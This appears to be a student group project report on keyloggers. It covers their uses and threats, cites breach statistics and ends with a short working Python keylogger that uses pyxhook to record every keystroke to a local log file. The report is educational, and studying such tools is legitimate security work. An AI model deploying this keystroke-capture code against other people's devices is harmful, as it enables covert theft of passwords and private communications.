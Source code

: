 # Keymaster
Key-Master 🔐: Creating & Understanding Keyloggers 
By NLOX
Luis Calderon, Nicole Iovino, O'Shayia Langston. and Xiong Zheng

Report Overview 🗒️

Keyloggers, or keystroke loggers, are tools that record what a person types on a device. Because keyloggers can record and quickly identify sensitive information, they are a significant threat to cybersecurity. To protect yourself, it’s important to know what keyloggers are, how to prevent an attack and how to remove a keylogger if you are attacked. In an attempt to better understand keyloggers the team at NLOX has researched and created our own simple keylogger, for educational purposes, and will outline the process in this report. 

Q1: The Problem / Opportunity 🎯

This report will detail what a keylogger is, how to create one, how it can be used by ethical / unethical hackers, and how to protect yourself/remove a keylogger should you suspect you have one.

Q2: Target Audience 👫

Students, employees, and lay persons (in order to protect yourself from threats its always best to understand how they work and operate).
Parents (who may use keyloggers as a form of parental control).
Information technology departments (can use keylogger software to troubleshoot issues on a device).
Companies outside of the tech space (keylogger software is often used as part of employee monitoring software to help track employee productivity).

Q3: The Hypothesis / Relevance📒

At NLOX we believe:

IF we create more awareness of keyloggers and their uses

⬇️

THEN we can better protect individuals and organizations against keylogging attacks

⬇️

BECAUSE 82% of breaches involve a human element, so even basic knowledge is crucial to limiting and preventing these types of attacks. 

With access to your personal information, malicious users can cause a lot of damage. It’s therefore important to protect yourself from keyloggers so you don’t become a victim. You can reduce the likelihood of an attack by learning what behaviors can make you vulnerable to keylogger attacks and what precautions can be taken. According to Verizon’s 2022 Data Breach Investigations Report, 82% of breaches involve a human element. By being aware of the dangers, you can bolster your cybersecurity in order to better protect yourself / your organization against keylogger attacks. This is why our team at NLOX found it so vital to create our own keylogger as a way to better understand its uses and threat potential. 

Q4: Supportive Data 📊

Our presentation will not only go into detail on what a keylogger is but we will also demonstrate how to create one (image 2) and how it functions (image 1). Below you will find images of the script we created to make our own keylogger. This script is designed to only work and save a "log file" to the host machine and is intended to be used like a parental control for informative purposes only. *This process will be further elaborated on in our video presentation.
We also intend to conduct extensive research on keyloggers usage in past known attacks such as "Darkhotel". a well-known keylogger malware attack that targeted unsecure Wi-Fi at hotels. While also making sure the presentation demonstrates the ethical uses of keyloggers.

Q5: The Result/Source Code 🧩

Our end will result will be an informative video presentation outlining our research. The presentation will outline our research on keyloggers. the steps we took to create our own, uses of keyloggers, and actions one can take against keyloggers. Roles: Nicole Iovino (Group Leader, Video editor), Luis Calderon (Scripting Examples Presentation), O'Shayia Langston (Ethical Uses of Keylogger), Xiong Zheng (Malware/Unethical Uses). Each team member will have a slide presenting a part of our groups overall research and created tools. The video will be between 3:00 - 5:00 minutes in length and displayed to our fellow classmates upon graduation.

Source Code:

#! /usr/bin/env python3
import os
import logging
import pyxhook
# Set the path to the log file, using the pylogger_file environment variable if available
# Otherwise, use the default path ~/Desktop/file.log
log_file = os.environ.get('pylogger_file', os.path.expanduser('~/Desktop/file.log'))
# Set the log format to include the timestamp, and specify the format of the timestamp
log_format = '%(asctime)s - %(message)s'
datefmt = '%Y:%m:%d %H:%M:%S'
# Configure the logging module with the log file path, log level, and log format
logging.basicConfig(filename=log_file, level=logging.INFO, format=log_format, datefmt=datefmt)
# This function will be called every time a key is pressed, and will log the key that was pressed
def OnKeyPress(event):
    logging.info(event.Key)
# Create an instance of the HookManager class from pyxhook
new_hook = pyxhook.HookManager()
# Set the KeyDown event to trigger the OnKeyPress function
new_hook.KeyDown = OnKeyPress
# Start the keylogger by calling HookKeyboard() on the HookManager instance
new_hook.HookKeyboard()
# Enter the event listener loop, which will keep the program running until it is stopped
new_hook.start()
